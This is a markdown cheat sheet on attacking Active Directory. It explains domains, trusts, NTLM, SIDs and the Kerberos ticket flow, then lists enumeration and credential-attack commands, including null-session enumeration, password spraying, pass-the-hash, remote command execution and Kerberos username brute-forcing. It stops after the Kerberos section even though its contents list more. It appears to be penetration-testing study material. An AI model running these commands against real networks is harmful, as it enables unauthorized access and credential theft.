# Active Directory

# Active Directory Attack Cheat Sheet

## Table of Contents

1. Active Directory Basics
2. Active Directory Components
3. Domain Authentication Concepts
4. Enumeration Techniques
5. Kerberos Authentication Deep Dive
6. Kerberos Attacks
7. Post-Exploitation
8. Defense & Detection
9. Theory and Concepts
10. Quick Reference Commands
11. Tools Reference
12. Additional Resources

---

## Active Directory Basics

### What is Active Directory?

Active Directory (AD) is Microsoft’s proprietary directory service that runs on Windows Server. It serves as a centralized database and set of services that connect users with the network resources they need to get their work done. Think of it as a phone book for your network - it stores information about users, computers, printers, and other network resources.

**Historical Context:**
Active Directory was first released with Windows 2000 Server and has become the de facto standard for enterprise identity management in Windows environments. It replaced the flat domain model of Windows NT and introduced a hierarchical, object-based approach to network management.

**Core Purposes:**
- **Authentication** - Verify who users are (Is this really Alice?)
- **Authorization** - Determine what users can access (Can Alice access this file?)
- **Centralized Management** - Manage all network resources from one place
- **Policy Enforcement** - Apply security settings across the organization
- **Service Location** - Help clients find network services

**Key Benefits:**
- **Single Sign-On (SSO)** - Users log in once and access multiple resources without re-authenticating
- **Centralized Administration** - IT staff can manage thousands of users and computers from a single interface
- **Scalability** - Can grow from small businesses to enterprises with millions of objects
- **Security** - Granular control over who can access what resources
- **Fault Tolerance** - Multiple domain controllers provide redundancy

### Domain Structure Visualization

```
Forest: contoso.com (Complete AD Instance)
│
├── Root Domain: contoso.com
│   ├── Domain Controller 1 (DC1.contoso.com)
│   ├── Domain Controller 2 (DC2.contoso.com)
│   │
│   ├── Organizational Unit: IT Department
│   │   ├── Users
│   │   │   ├── alice@contoso.com
│   │   │   ├── bob@contoso.com
│   │   │   └── charlie@contoso.com
│   │   ├── Computers
│   │   │   ├── WORKSTATION01
│   │   │   └── SERVER01
│   │   └── Groups
│   │       ├── IT-Admins
│   │       └── IT-Support
│   │
│   ├── Organizational Unit: Sales Department
│   │   ├── Users
│   │   ├── Computers
│   │   └── Groups
│   │
│   └── Built-in Containers
│       ├── Domain Admins (Group)
│       ├── Enterprise Admins (Group)
│       └── Administrator (User)
│
├── Child Domain: dev.contoso.com
│   └── Development resources
│
└── Tree: subsidiary.com (Separate namespace)
    └── Acquired company resources
```

**Understanding the Hierarchy:**

1. **Forest** - The top-level container. Everything in a forest shares:
    - A common schema (definition of object types)
    - A common configuration
    - A common global catalog
    - Automatic two-way transitive trusts between domains
2. **Domain** - A security boundary with:
    - Its own authentication database
    - Its own security policies
    - Its own administrative control
3. **Organizational Units (OUs)** - Containers for organizing objects:
    - Can represent departments, locations, or functions
    - Used to delegate administrative permissions
    - Have Group Policy Objects (GPOs) applied to them

)

**Key Concept - Namespace:**
The namespace in Active Directory follows DNS naming conventions. For example:
- `alice@contoso.com` - User Principal Name (UPN)
- `CN=alice,OU=IT,DC=contoso,DC=com` - Distinguished Name (DN)

---

## Active Directory Components

### 1. Domain Controllers (DC)

Domain Controllers are the backbone of Active Directory. They are Windows Server machines that have been promoted to host the AD DS (Active Directory Domain Services) role.

**What Domain Controllers Do:**

```
User Login Request → Domain Controller
                     ├── Check credentials against AD database
                     ├── Issue Kerberos ticket if valid
                     ├── Apply Group Policy settings
                     └── Log authentication event
```

**Core Functions:**
- **Authentication** - Validate user credentials and issue tickets
- **Replication** - Synchronize AD changes with other DCs
- **LDAP Server** - Respond to directory queries
- **DNS Server** - Usually integrated with AD for name resolution
- **Global Catalog** - Provide forest-wide search capabilities
- **Time Synchronization** - Act as time source for domain (critical for Kerberos)

**Multi-Master Replication:**
Unlike older systems, AD uses multi-master replication - all DCs are read-write. Changes made on any DC are replicated to all others. This provides:
- High availability
- Load distribution
- No single point of failure

**FSMO Roles (Flexible Single Master Operations):**
While most operations are multi-master, some require a single authoritative source:

1. **Schema Master** (One per forest)
    - Controls all schema updates
    - Modifies the structure of AD objects
2. **Domain Naming Master** (One per forest)
    - Controls addition/removal of domains
    - Ensures unique domain names
3. **RID Master** (One per domain)
    - Allocates blocks of Relative IDs to DCs
    - Each object gets a unique SID = Domain SID (Security Identifiers)+ RID (Relative Identifiers)
4. **PDC Emulator - Primary Domain Controller Emulator** (One per domain)
    - Time source for the domain
    - Password change priority
    - Legacy support for Windows NT
    - Group Policy master
5. **Infrastructure Master** (One per domain)
    - Updates cross-domain references
    - Maintains group-to-user references





- **NTDS.DIT - New Technology Directory Service dot Directory Information Tree**: Holds the core AD database with user and computer info
- **SYSVOL** - shared folder containing GPOs and logon scripts replicated across all Domain Controllers

### 2. Objects in Active Directory

Every item in Active Directory is an object. Objects have attributes (properties) and are defined by classes (templates).

**User Objects:**

```
User Object: alice
├── Attributes:
│   ├── sAMAccountName: alice
│   ├── userPrincipalName: alice@contoso.com
│   ├── distinguishedName: CN=alice,OU=IT,DC=contoso,DC=com
│   ├── objectSID: S-1-5-21-[domain]-[RID]
│   ├── memberOf: [list of groups]
│   ├── servicePrincipalName: [if service account]
│   ├── userAccountControl: [account flags]
│   └── passwordLastSet: [timestamp]
```

**Important User Attributes for Security:**

- **sAMAccountName** - Legacy Windows NT account name (DOMAIN)
- **userPrincipalName** - Modern format (username@domain.com)
- **objectSID** - Unique security identifier, never changes
- **userAccountControl** - Flags that control account behavior:
    - `DONT_REQ_PREAUTH` (0x400000) - Vulnerable to AS-REP Roasting
    - `TRUSTED_FOR_DELEGATION` (0x80000) - Can impersonate users
    - `PASSWORD_NOT_REQUIRED` (0x0020) - No password required
    - `DONT_EXPIRE_PASSWORD` (0x10000) - Password never expires

**Note:** `DONT_REQ_PREAUTH`- This flag is a **Kerberos protocol security setting** that controls whether a user's initial authentication request (AS-REQ) must be time-stamped and encrypted with their password hash before the Domain Controller (DC) will issue a Ticket-Granting Ticket. `PASSWORD_NOT_REQUIRED` - "Password not required" `msDS-UserPasswordNotRequired` is a specific attribute that lets an account log in with a blank password, bypassing normal password policies, making it a major security risk.

**Computer Objects:**

Computers are security principals just like users. Each domain-joined machine has:
- A computer account (ends with , *e*.*g*., *WORKSTATION*01)
- A password (randomly generated, changes every 30 days)
- Authentication credentials for domain services

**Computer Account Special Cases:**
- **Domain Controllers** - Member of “Domain Controllers” group
- **Servers** - May have SPNs registered for hosted services
- **Workstations** - Standard computers with user logins

**Group Objects:**

Groups are collections of users, computers, or other groups used to simplify permission management.

**Group Types:**
1. **Security Groups** - Used for permissions and access control
2. **Distribution Groups** - Used only for email distribution (no security use)

**Group Scopes:**
1. **Domain Local** - Can contain members from any domain, used for resource access in local domain
2. **Global** - Can contain members from same domain only, used to organize users
3. **Universal** - Can contain members from any domain in forest, replicated to all global catalogs

**Critical Built-in Groups:**

```
Domain Admins
├── Full control over the entire domain
├── Member of local Administrators on all domain computers
└── Can promote/demote DCs

Enterprise Admins
├── Full control over the entire forest
├── Only exists in root domain
└── Highest level of access

Schema Admins
├── Can modify the AD schema
├── Extremely powerful
└── Should be empty except during schema updates

Account Operators
├── Can create/modify user accounts
└── Cannot modify admin accounts

Backup Operators
├── Can backup/restore all files
└── Can log on to DCs

DNSAdmins
├── Full control over DNS
└── Can execute code as SYSTEM on DC (exploit path)
```



### 3. Active Directory Database

**NTDS.dit File:**
The heart of Active Directory is stored in `C:\Windows\NTDS\NTDS.dit` on each Domain Controller. This ESE (Extensible Storage Engine) database contains:

- **All AD objects** - Users, computers, groups, OUs
- **Password hashes** - NTLM hashes for all accounts
- **Password history** - Previous password hashes
- **Group memberships** - Who belongs to what
- **Replication metadata** - Version numbers, timestamps

**Security Implications:**
- Direct access requires SYSTEM or Domain Admin privileges
- Can be copied offline (Volume Shadow Copy) and extracted
- Contains `krbtgt` account hash - key to golden tickets
- Backups should be protected with same care as production

**SYSVOL Folder:**
Located at `C:\Windows\SYSVOL`, this shared folder contains:
- Group Policy templates
- Scripts (logon, startup, shutdown)
- Public portion of Group Policy Objects

**Security Note:** SYSVOL is replicated to all DCs and often contains passwords in scripts or Group Policy Preferences (GPP) XML files.

**Note:** DRSUAPI (Directory Replication Service Remote Protocol) is the core Microsoft protocol (MS-DRSR) used for replicating Active Directory data between Domain Controllers (DCs) to keep directories consistent

### 4. Forests, Trees, and Trusts

**Forest Architecture:**

A forest is the ultimate security boundary in Active Directory. Compromise of one forest should not affect other forests (unless trusts exist).

**Forest Components:**

```
Forest Root Domain (first domain created)
├── Forest-wide Administrators (Enterprise Admins)
├── Forest-wide Configuration (Schema)
├── Global Catalog Servers
└── Trust Relationships

Child Domains (share namespace with parent)
├── Automatic two-way transitive trusts
└── Inherit forest schema

Tree Domains (separate namespace)
├── Automatic two-way transitive trusts with root
└── Part of same forest
```

**Trust Relationships:**

Trusts allow users in one domain to access resources in another. They define the authentication path.

**Trust Types:**

1. **Parent-Child Trust**
    - Automatically created when child domain is added
    - Two-way transitive
    - Example: `contoso.com` ⟷ `dev.contoso.com`
2. **Tree-Root Trust**
    - Automatically created when new tree added to forest
    - Two-way transitive
    - Example: `contoso.com` ⟷ `subsidiary.com`
3. **External Trust**
    - Manually created between domains in different forests
    - Non-transitive by default
    - One-way or two-way
4. **Forest Trust**
    - Between root domains of two forests
    - Can be transitive
    - Enables forest-wide resource access
5. **Realm Trust**
    - Between AD and non-Windows Kerberos realm
    - One-way or two-way

**Trust Direction:**

```
Domain A ----trusts----> Domain B
(Trusting Domain)      (Trusted Domain)

Users from Domain B can access resources in Domain A
```

**Trust Transitivity:**

```
If: Domain A trusts Domain B (transitive)
And: Domain B trusts Domain C (transitive)
Then: Domain A trusts Domain C (transitive trust path)
```

**Security Implications:**
- Trusts are authentication paths, NOT authorization paths
- Just because you can authenticate doesn’t mean you have permissions
- However, trusts can be abused for lateral movement
- SID filtering helps protect against trust attacks



**Note: Transitivity** refers to how trust relationships automatically extend beyond directly connected domains, allowing users from one domain to access resources in other domains in the trust path without explicit trusts being set

---

## Domain Authentication Concepts

### Authentication vs. Authorization

**Authentication** - “Who are you?”
- Proves identity
- Verifies credentials
- Results in a security token

**Authorization** - “What can you do?”
- Checks permissions
- Evaluates access control lists (ACLs)
- Grants or denies access to resources

**Example Flow:**

```
1. User presents credentials → Authentication
2. System verifies credentials → Authentication Success
3. User receives security token → Authentication Complete
4. User requests file access → Authorization Check
5. System checks ACL on file → Authorization Process
6. Access granted or denied → Authorization Complete
```

### NTLM Authentication (Legacy)

NTLM (NT LAN Manager) is the older authentication protocol, still supported for backward compatibility.

**NTLM Authentication Flow:**

```
1. Client → Server: Authentication request
2. Server → Client: Challenge (random number)
3. Client: Encrypts challenge with password hash
4. Client → Server: Response (encrypted challenge)
5. Server → DC: Sends username and responses
6. DC: Looks up user's hash, encrypts same challenge
7. DC: Compares results
8. DC → Server: Success or failure
9. Server → Client: Access granted or denied
```

**NTLM Hash Format:**

```
Username:RID:LM_Hash:NTLM_Hash:::

Example:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

**Security Issues with NTLM:**
- No mutual authentication (client can’t verify server)
- Vulnerable to relay attacks
- Weaker encryption than Kerberos
- Password hash is equivalent to password (Pass-the-Hash)
- No protection against replay attacks

**Why NTLM Still Exists:**
- Legacy system compatibility
- Workgroup environments (no AD)
- Fallback when Kerberos fails
- Some applications require it

### Kerberos vs NTLM

| Feature | Kerberos | NTLM |
| --- | --- | --- |
| **Authentication Type** | Ticket-based | Challenge-response |
| **Mutual Authentication** | Yes | No |
| **Delegation Support** | Yes | Limited |
| **Encryption** | AES, RC4 | MD4, MD5 |
| **Performance** | Better (cached tickets) | Slower (DC for each auth) |
| **Default Since** | Windows 2000 | Windows NT |
| **Security** | Stronger | Weaker |

### Security Identifiers (SID)

Every security principal (user, group, computer) has a unique SID.

**SID Structure:**

```
S-1-5-21-[Domain Identifier]-[Relative ID]
│ │ │  │        │                   │
│ │ │  │        │                   └─ RID: Unique within domain
│ │ │  │        └───────────────────── Domain/Machine specific
│ │ │  └────────────────────────────── NT Authority (always 21)
│ │ └───────────────────────────────── Identifier Authority (usually 5)
│ └─────────────────────────────────── Revision (always 1)
└───────────────────────────────────── Identifies as a SID

Example:
S-1-5-21-1004336348-1177238915-682003330-1105
```

**Well-Known SIDs:**
- `S-1-5-21-[domain]-500` - Domain Administrator
- `S-1-5-21-[domain]-512` - Domain Admins group
- `S-1-5-21-[domain]-519` - Enterprise Admins group
- `S-1-5-18` - Local SYSTEM account
- `S-1-5-32-544` - Local Administrators group

**Why SIDs Matter:**
- Used in access control lists (ACLs)
- Never change even if username changes
- Can’t be reused (GUIDs)
- Critical for permission assignments
- Used in security tokens

---

## Enumeration Techniques

Enumeration is the process of gathering information about the domain, users, groups, computers, and services. It’s often the first step after gaining initial access.

### Network Enumeration

**Understanding Network Discovery:**

Before attacking AD, you need to find it. Domain Controllers typically expose multiple services on standard ports.

**Nmap Scanning:**

```bash
# Quick scan for AD services
nmap -Pn -p 53,88,135,139,389,445,464,636,3268,3269,3389 <target-ip>

# Comprehensive service detection
nmap -sV -sC -p- -T4 <target-ip> -oA ad_scan

# Specifically identify Domain Controllers
nmap -p 389 --script ldap-rootdse <target-ip>

# Enumerate DNS for domain info
nmap -p 53 --script dns-nsid <target-ip>
```

**Common AD Ports Explained:**

| Port | Service | Purpose | Attacker Value |
| --- | --- | --- | --- |
| 53 | DNS | Domain name resolution | Enumerate domain structure, find DCs |
| 88 | Kerberos | Authentication | AS-REP roasting, Kerberoasting |
| 135 | RPC | Remote Procedure Calls | Enumerate users, groups |
| 139 | NetBIOS | Legacy file sharing | SMB enumeration |
| 389 | LDAP | Directory queries | Dump AD objects |
| 445 | SMB | File sharing | Access shares, relay attacks |
| 464 | Kerberos | Password changes | Kerberos attacks |
| 636 | LDAPS | Secure LDAP | Encrypted directory queries |
| 3268 | GC | Global Catalog | Forest-wide searches |
| 3389 | RDP | Remote Desktop | Remote access |
| 5985 | WinRM | Remote Management | Remote command execution |

### DNS Enumeration

DNS is tightly integrated with Active Directory and can reveal valuable information.

```bash
# Query domain controllers
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>

# Find all DCs
nslookup -type=SRV _kerberos._tcp.<domain>

# Enumerate subdomains
dnsenum <domain>

# Zone transfer (usually disabled)
dig axfr @<dns-server> <domain>

# Reverse lookup
nslookup <ip-address> <dns-server>
```

**What DNS Tells Us:**
- Domain name and structure
- Domain controller names and IPs
- Subdomain existence
- Internal naming convention
- Trust relationships (sometimes)

### SMB Enumeration

SMB (Server Message Block) is file sharing protocol that often leaks information.

**Enum4linux - The Classic Tool:**

```bash
# Complete enumeration
enum4linux -a <target-ip>

# User enumeration
enum4linux -U <target-ip>

# Share enumeration
enum4linux -S <target-ip>

# Group enumeration
enum4linux -G <target-ip>

# Password policy
enum4linux -P <target-ip>

# OS information
enum4linux -o <target-ip>

# RID cycling to find users
enum4linux -r -u "" -p "" <target-ip>
```

**What Enum4linux Reveals:**
- Workgroup/Domain name
- Domain SID
- User accounts (sometimes without auth)
- Group memberships
- Password policy (lockout threshold, complexity)
- Shared folders
- Operating system version

**SMBClient - Direct Share Access:**

```bash
# List shares (null session)
smbclient -L //<target-ip>/ -N

# List shares (with credentials)
smbclient -L //<target-ip>/ -U username

# Connect to share
smbclient //<target-ip>/sharename -U username

# Common commands once connected:
# ls - list files
# get filename - download file
# mget * - download all
# put filename - upload file
```

**SMBMap - Modern SMB Tool:**

```bash
# Check access to shares
smbmap -H <target-ip>

# With credentials
smbmap -H <target-ip> -u username -p password

# Execute commands
smbmap -H <target-ip> -u username -p password -x 'ipconfig'

# Drive listing
smbmap -H <target-ip> -u username -p password -L
```

**CrackMapExec - The Swiss Army Knife:**

```bash
# Check SMB access
crackmapexec smb <target-ip>

# Enumerate shares (null session)
crackmapexec smb <target-ip> -u '' -p '' --shares

# Enumerate with credentials
crackmapexec smb <target-ip> -u username -p password --shares

# Enumerate users
crackmapexec smb <target-ip> -u username -p password --users

# Enumerate groups
crackmapexec smb <target-ip> -u username -p password --groups

# Check for admin access
crackmapexec smb <target-ip> -u username -p password

# Password spraying
crackmapexec smb <target-ip> -u users.txt -p 'Password123' --continue-on-success

# Pass-the-hash
crackmapexec smb <target-ip> -u username -H <ntlm-hash>

# Execute commands
crackmapexec smb <target-ip> -u username -p password -x whoami
```

### LDAP Enumeration

LDAP (Lightweight Directory Access Protocol) is how clients query Active Directory.

**Understanding LDAP Queries:**

LDAP uses a specific query syntax:
- **BaseDN**: Where to start searching (e.g., `DC=contoso,DC=com`)
- **Filter**: What to search for (e.g., `objectClass=user`)
- **Attributes**: What information to return

**ldapsearch - Command Line LDAP:**

```bash
# Anonymous bind (check if allowed)
ldapsearch -x -h <target-ip> -s base namingcontexts

# Get domain structure
ldapsearch -x -h <target-ip> -s base

# Enumerate all users (anonymous)
ldapsearch -x -h <target-ip> -b "DC=domain,DC=local" "objectClass=user"

# Authenticated query for all users
ldapsearch -x -h <target-ip> -D "CN=username,CN=Users,DC=domain,DC=local" -w password -b "DC=domain,DC=local" "(objectClass=user)"

# Find specific user
ldapsearch -x -h <target-ip> -b "DC=domain,DC=local" "(sAMAccountName=alice)"

# Find users with SPN (Kerberoastable)
ldapsearch -x -h <target-ip> -b "DC=domain,DC=local" "(&(objectClass=user)(servicePrincipalName=*))"

# Find users with pre-auth disabled (AS-REP Roastable)
ldapsearch -x -h <target-ip> -b "DC=domain,DC=local" "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"

# Enumerate groups
ldapsearch -x -h <target-ip> -b "DC=domain,DC=local" "objectClass=group"

# Find admin groups
ldapsearch -x -h <target-ip> -b "DC=domain,DC=local" "(&(objectClass=group)(|(cn=*admin*)(cn=Domain Admins)))"
```

**LDAP Search Filters:**
- `(objectClass=user)` - All user objects
- `(objectClass=computer)` - All computer objects
- `(objectClass=group)` - All groups
- `(sAMAccountName=alice)` - Specific user
- `(servicePrincipalName=*)` - Objects with SPNs
- `(adminCount=1)` - Protected admin accounts
- `(&(condition1)(condition2))` - AND logic
- `(|(condition1)(condition2))` - OR logic

**Windapsearch (Windows-focused LDAP tool):**

```bash
# Enumerate users
python3 windapsearch.py -d domain.local --dc-ip <dc-ip> -u username -p password --users

# Enumerate computers
python3 windapsearch.py -d domain.local --dc-ip <dc-ip> -u username -p password --computers

# Find privileged users
python3 windapsearch.py -d domain.local --dc-ip <dc-ip> -u username -p password --privileged-users

# Custom LDAP query
python3 windapsearch.py -d domain.local --dc-ip <dc-ip> -u username -p password --custom "servicePrincipalName=*"
```

### Kerbrute - Kerberos Username Enumeration

Kerbrute exploits Kerberos pre-authentication to validate usernames without triggering account lockouts.

**How Kerbrute Works:**

```
1. Send AS-REQ for username
2. If user exists:
   - KDC responds with "Pre-authentication required" (valid user)
3. If user doesn't exist:
   - KDC responds with "Principal unknown" (invalid user)
4. No failed login logged!
```

**Kerbrute Usage:**

```bash
# Download Kerbrute
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x kerbrute_linux_amd64

# Username enumeration
./kerbrute_linux_amd64 userenum --dc <dc-ip> -d <domain> userlist.txt

# With verbose output
./kerbrute_linux_amd64 userenum --dc <dc-ip> -d <domain> userlist.txt -v

# Password spraying (after finding usernames)
./kerbrute_linux_amd64 passwordspray --dc <dc-ip> -d <domain> users.txt Password123

# Brute force single user
./kerbrute_linux_amd64 bruteuser --dc <dc-ip> -d <domain> passwords.txt username

# Output to file
./kerbrute_linux_amd64 userenum --dc <dc-ip> -d <domain> userlist.txt -o valid_users.txt
```

**Why Kerbrute is Stealthy:**
- Doesn’t trigger account lockouts
- Minimal event log footprint
- Can be done pre-authentication
- Fast parallel checking
- No SMB/LDAP connection needed

**Username Wordlists:**
- `/usr/share/seclists/Usernames/Names/names.txt`
- `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`
- Custom lists based on OSINT (target website)


### RPC Enumeration

RPC (Remote Procedure Call) can be used to enumerate users, groups, and domain information.

**rpcclient:**

```bash
# Connect with null session
rpcclient -U "" -N <target-ip>

# Connect with credentials
rpcclient -U "username%password" <target-ip>

# Once connected:
> srvinfo                    # Server information
> enumdomusers               # Enumerate users
> enumdomgroups              # Enumerate groups
> queryuser <RID>            # Detailed user info
> querygroup <RID>           # Detailed group info
> querygroupmem <RID>        # Group members
> lookupnames username       # Get SID for user
> lookupsids <SID>           # Get name for SID
```

**Impacket-samrdump:**

```bash
# Dump user information via RPC
impacket-samrdump <domain>/<username>:<password>@<target-ip>
```

---

## Kerberos Authentication Deep Dive

Kerberos is the foundation of Active Directory security. Understanding it deeply is essential for both attack and defense.

### Kerberos Theoretical Foundation

**Design Principles:**

Kerberos was designed at MIT in the 1980s to solve a fundamental problem: How can users prove their identity over an insecure network without transmitting passwords?

**Core Concepts:**

1. **Symmetric Key Cryptography** - Same key encrypts and decrypts
2. **Trusted Third Party** - KDC acts as authentication authority
3. **Ticket-Based** - Tickets prove authentication instead of passwords
4. **Time-Limited** - Tickets expire to limit exposure
5. **Mutual Authentication** - Both client and server verify each other

**The Kerberos Actors:**

```
Principal (User)
├── Has password known only to themselves and KDC
└── Wants to access services

Key Distribution Center (KDC)
├── Authentication Server (AS)
│   └── Issues TGTs (Ticket Granting Tickets)
└── Ticket Granting Server (TGS)
    └── Issues Service Tickets

Service (Server)
├── Has service account with password
└── Trusts tickets issued by KDC
```

### Kerberos Encryption Keys

Understanding the encryption keys is critical:

**User’s Key:**
- Derived from user’s password
- `NTLM Hash = MD4(password)`
- Used to encrypt session key in AS-REP

**krbtgt Key:**
- Special account’s NTLM hash
- Used to encrypt TGTs
- Compromising this = golden ticket attacks

**Service Account Key:**
- Service’s password hash
- Used to encrypt service tickets
- Compromising this = silver ticket attacks

**Session Keys:**
- Temporary symmetric keys
- Generated for each session
- Encrypted within tickets

### Detailed Kerberos Authentication Flow

**Phase 1: AS-REQ (Authentication Service Request)**

```
Client → KDC (AS)

Request Contents:
├── Username (Principal)
├── Requested Service (krbtgt/DOMAIN)
├── Timestamp (encrypted with user's key)
└── Network address (optional)

Purpose: Request a Ticket Granting Ticket (TGT)
```

**Phase 2: AS-REP (Authentication Service Response)**

```
KDC (AS) → Client

Response Contents:
├── TGT (Ticket Granting Ticket)
│   ├── Username
│   ├── TGT Session Key
│   ├── Timestamp
│   └── Expiration (default 10 hours)
│   [Encrypted with krbtgt hash - client cannot decrypt]
│
└── Session Key
    └── [Encrypted with user's password hash - client can decrypt]

Client decrypts Session Key with their password hash
Client stores TGT for future use
```

**Phase 3: TGS-REQ (Ticket Granting Service Request)**

```
Client → KDC (TGS)

Request Contents:
├── TGT (from AS-REP)
├── Authenticator (timestamp + username)
│   └── [Encrypted with TGT Session Key]
└── Requested Service (e.g., cifs/fileserver.domain.local)

Purpose: Request access to specific service
```

**Phase 4: TGS-REP (Ticket Granting Service Response)**

```
KDC (TGS) → Client

Response Contents:
├── Service Ticket
│   ├── Username
│   ├── Service Session Key
│   ├── Timestamp
│   └── Expiration
│   [Encrypted with service account's hash - client cannot decrypt]
│
└── Service Session Key
    └── [Encrypted with TGT Session Key - client can decrypt]

Client decrypts Service Session Key
Client has ticket for specific service
```

**Phase 5: AP-REQ (Application Request)**

```
Client → Service

Request Contents:
├── Service Ticket (from TGS-REP)
├── Authenticator (timestamp + username)
│   └── [Encrypted with Service Session Key]

Service decrypts ticket with its own password hash
Service validates authenticator
Service grants access if valid
```

**Phase 6: AP-REP (Application Response) - Optional**

```
Service → Client

Response Contents:
└── Timestamp + 1
    └── [Encrypted with Service Session Key]

Purpose: Mutual authentication
Client verifies service is legitimate
```

**Complete Flow Visualization:**

```
USER                    KDC (AS)                KDC (TGS)              SERVICE
 │                         │                         │                     │
 │──1. AS-REQ────────────>│                         │                     │
 │   (Username +           │                         │                     │
 │    Encrypted Time)      │                         │                     │
 │                         │                         │                     │
 │<─2. AS-REP─────────────│                         │                     │
 │   (TGT + Session Key)   │                         │                     │
 │                         │                         │                     │
 │──3. TGS-REQ──────────────────────────────────────>│                     │
 │   (TGT + Service Name)  │                         │                     │
 │                         │                         │                     │
 │<─4. TGS-REP────────────────────────────────────────│                     │
 │   (Service Ticket)      │                         │                     │
 │                         │                         │                     │
 │──5. AP-REQ────────────────────────────────────────────────────────────>│
 │   (Service Ticket)      │                         │                     │
 │                         │                         │                     │
 │<─6. AP-REP (optional)──────────────────────────────────────────────────│
 │   (Authenticated)       │                         │                     │
 │                         │                         │                     │
 │──7. Service Access───────────────────────────────────────────────────>│
```

